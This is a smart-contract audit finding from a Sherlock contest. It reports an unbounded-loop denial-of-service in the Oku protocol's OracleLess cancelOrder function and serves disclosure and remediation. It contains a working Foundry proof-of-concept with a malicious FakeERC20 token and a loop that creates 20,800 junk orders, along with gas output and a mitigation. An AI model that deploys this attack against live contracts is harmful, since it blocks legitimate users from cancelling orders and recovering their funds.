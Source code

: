 # Overview
- [Issue M-10: cancelOrder order can be DOSed due to unbounded loop](#

## Issue M-10: cancelOrder order can be DOSed due to unbounded loop.
Source: https://github.com/sherlock-audit/2024-11-oku-judging/issues/589

### Found by
056Security, 0x0x0xw3, 0x37, 0xNirix, 0xaxaxa, 0xeix, 0xlucky, Audinarey, Boy2000, Chinedu, Contest-Squad, ExtraCaterpillar, John44, Kenn.eth, Opeyemi, PeterSR, Ragnarok, Tri-pathi, ami, befree3x, bughuntoor, future2_22, gajiknownnothing, hals, iamandreiski, itcruiser00, joshuajee, mxteem, oualidpro, phoenixv110, rahim7x, s0x0mtee, vinica_boy, whitehair0330, xiaoming90, ***yuza101***, zhoo, zxriptor

### Summary
The pendingOrderIds arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the _cancelOrder no one will be able to cancel orders not admin nor order reciepient.

### Root Cause
The root cause of the issue lies in the _cancelOrder function that loops through the pendingOrderIds in search of the right one because this pendingOrderIds array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151
```
    function _cancelOrder(Order memory order) internal returns (bool) {  
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {  
            if (pendingOrderIds[i] == order.orderId) {  
                //remove from pending array  
                pendingOrderIds = ArrayMutation.removeFromArray(  
                    i,  
                    pendingOrderIds  
                );  
  
                //refund tokenIn amountIn to recipient  
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);  
  
                //emit event  
                emit OrderCancelled(order.orderId);  
  
                return true;  
            }  
        }  
        return false;  
    }  
``` 
### Internal pre-conditions
No response

### External pre-conditions
No response

### Attack Path
Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
After this legitimate users will not be able to cancel order.

### Impact
The cancelOrder function won't work and it will cost around $150 dollar to do it.
There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.

### PoC
Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
  
Copy and paste the code snippet below in the /test/ folder.
```
// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.24;  
  
import "forge-std/Test.sol";  
import "forge-std/console.sol";  
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";  
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";  
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";  
import "../contracts/interfaces/uniswapV3/IPermit2.sol";  
import "../contracts/interfaces/openzeppelin/ERC20.sol";  
import "../contracts/interfaces/openzeppelin/IERC20.sol";  
  
contract FakeERC20 {  
    function transfer(address to, uint256 amount) external returns (bool) {   
        revert("HACKED!");  
        return false;  
    }  
  
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {   
        return true;  
    }  
  
}  
  
contract PocTest is Test {  
  
    AutomationMaster automationMaster;  
    OracleLess oracleLess;  
    IPermit2 permit2;  
    IERC20 fakeErc20;  
    IERC20 realToken;  
  
    address attacker = makeAddr("attacker");  
    address alice = makeAddr("alice");  
  
    function setUp() public {  
        automationMaster = new AutomationMaster();  
        oracleLess = new OracleLess(automationMaster, permit2);  
        fakeErc20 = IERC20(address(new FakeERC20()));  
        realToken = IERC20(address(new ERC20Mock()));  
        //MINT  
        ERC20Mock(address(realToken)).mint(alice, 100 ether);  
    }  
  
    function testDosAttack() public {  
        uint96 orderId;  
        uint gasUsed = gasleft();  
        vm.startPrank(alice);  
        realToken.approve(address(oracleLess), 100 ether);  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        gasUsed = gasleft();  
        oracleLess.cancelOrder(orderId);  
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(attacker);  
        gasUsed = gasleft();  
        for (uint i = 0; i < 20800; i++)  
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');  
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(alice);  
        gasUsed = gasleft();  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        oracleLess.cancelOrder(orderId);  
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());  
        vm.stopPrank();  
    }  
  
}
```  
Output
```
[PASS] testDosAttack() (gas: 444968053)  
Logs:  
  Normal Cancel Gas Usage        :  9439  
  Attack Gas Usage               :  394889776  
  After Attack Cancel Gas Usage  :  30294277
```
From the test output, we can see that 20800 order is enough to cause a DOS on the cancelOrder function, and it will cost the attacker 394889776 is about $150 dollar.

### Mitigation
Create a fuction that can use the index to cancel order.

### References
https://audits.sherlock.xyz/contests/641/report
